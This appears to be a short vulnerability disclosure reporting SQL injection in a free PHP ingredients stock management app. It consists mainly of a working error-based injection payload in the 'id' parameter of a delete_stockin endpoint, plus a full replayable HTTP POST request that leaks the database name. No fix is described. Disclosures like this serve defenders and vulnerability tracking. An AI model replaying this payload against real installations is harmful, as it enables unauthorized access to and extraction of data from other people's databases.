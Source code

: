 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/classes/Master.php?f=delete_stockin

Vulnerability location: /isms/classes/Master.php?f=delete_stockin, id

db_name = isms_db;

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /isms/classes/Master.php?f=delete_stockin HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```


![image](https://user-images.githubusercontent.com/54017627/179383988-a676a61f-2c37-43df-b0f1-9a66715b0d96.png)

